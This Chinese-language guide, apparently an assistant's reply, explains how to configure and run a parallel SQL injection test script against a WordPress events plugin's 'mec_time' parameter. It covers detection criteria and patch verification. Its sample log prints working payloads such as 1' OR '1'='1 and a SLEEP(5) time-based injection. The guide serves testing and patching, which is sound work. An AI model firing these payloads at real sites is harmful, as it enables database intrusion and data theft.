 
配置目標：

直接修改腳本：在 TARGET_URLS 列表中添加目標 URL，例如：
pythonTARGET_URLS = [
    "http://localhost/wp/?mec_time=",
    "http://test-site.com/wp/?mec_time="
]

使用檔案：創建 targets.txt，每行一個 URL，例如：
texthttp://localhost/wp/?mec_time=
http://test-site.com/wp/?mec_time=
腳本會自動讀取檔案中的目標。


運行腳本：

儲存腳本為 sql_injection_test.py。
執行：python sql_injection_test.py
腳本將並行測試所有目標和 payload，並將結果儲存到帶時間戳的日誌檔案（例如 sql_injection_test_20250821_143022.txt）。


結果分析：

日誌檔案包含每個請求的詳細信息：目標 URL、payload、狀態碼、響應時間、響應片段和漏洞狀態。
漏洞檢測條件：

響應包含「error」或「mysql」：可能洩露數據庫錯誤。
響應包含「username」或「password」：可能洩露敏感數據。
時間基注入（SLEEP(5)）響應時間 > 4.5 秒：確認漏洞。




修補驗證：

更新插件至 6.1.5 或更高版本。
重跑腳本，確認無「漏洞檢測到」的結果。




示例日誌輸出
假設測試兩個目標，部分日誌可能如下：
text[*] 時間: 2025-08-21 14:34:56
[*] 目標: http://localhost/wp/?mec_time=1' OR '1'='1
[*] Payload: 1' OR '1'='1
[*] 狀態碼: 200
[*] 響應時間: 0.12 秒
[*] 響應片段: <html>...event list...
[*] 潛在漏洞: 是
--------------------------------------------------
[*] 時間: 2025-08-21 14:34:57
[*] 目標: http://test-site.com/wp/?mec_time=1' AND SLEEP(5); --
[*] Payload: 1' AND SLEEP(5); --
[*] 狀態碼: 200
[*] 響應時間: 5.02 秒
[*] 潛在漏洞: 是
--------------------------------------------------

注意事項

合法性：僅在合法授權的環境（如本地或自有站點）測試，避免違反法律。
沙盒環境：建議使用 Docker 或虛擬機（如 XAMPP）搭建 WordPress 測試環境。
網路穩定性：腳本包含超時處理（TIMEOUT=5），可根據需要調整。
擴展性：可添加更多 payload 或自訂檢測條件（例如檢查特定錯誤訊息）。
修補確認：測試修補版本（6.1.5+）時，應無漏洞提示。

如果需要進一步自訂（例如特定 payload、代理支持或更詳細的報告格式），請提供要求！